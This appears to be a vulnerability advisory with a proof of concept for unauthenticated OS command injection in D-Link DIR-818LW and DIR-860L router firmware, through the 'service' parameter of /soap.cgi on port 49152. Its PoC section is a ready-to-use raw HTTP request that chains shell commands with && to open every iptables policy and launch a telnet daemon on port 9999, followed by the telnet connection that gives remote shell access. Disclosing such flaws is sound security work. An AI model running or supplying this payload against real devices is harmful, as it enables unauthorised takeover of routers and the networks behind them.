

# D-Link Unauthenticated OS Command Injection

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vender**: D-Link

**Firmware version**:
DIR-818LW_REVA - 2.05.B03,
DIR-860L_REVB - 2.03.B03

**Hardware Link**:
https://support.dlink.com/ProductInfo.aspx?m=DIR-818LW,
https://support.dlink.com/ProductInfo.aspx?m=DIR-860L

## The detail of vulnerability ##

I found unauthenticated remote code execution vulnerability in `soapcgi_main` function of `cgibin` binary.

On the `/soap.cgi` HTTP POST message on `49152` port, with the `service` GET parameter, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with [CVE-2018-6530](https://github.com/TheBeeMan/Pwning-multiple-dlink-router-via-SOAP-proto#0x04-details---lan---revab---command-injection-in-soap-controltype-url-interface), and some firmware was already added character sanitizing with `strchr` function.

However, on the firmware DIR-818LW_REVA_PATCH_2.05.B03, DIR-860L_REVB_2.03.B03; they not fully filtered the vulnerable character.



With `&&` string, the device can be exploited, too.

## PoC

```
# nc 192.168.0.1 49152
POST /soap.cgi?service=&&iptables -P INPUT ACCEPT&&iptables -P FORWARD ACCEPT&&iptables -P OUTPUT ACCEPT&&iptables -t nat -P PREROUTING ACCEPT&&iptables -t nat -P OUTPUT ACCEPT&&iptables -t nat -P POSTROUTING ACCEPT&&telnetd -p 9999&& HTTP/1.1
Host: 192.168.0.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

# telnet 192.168.0.1 9999
```

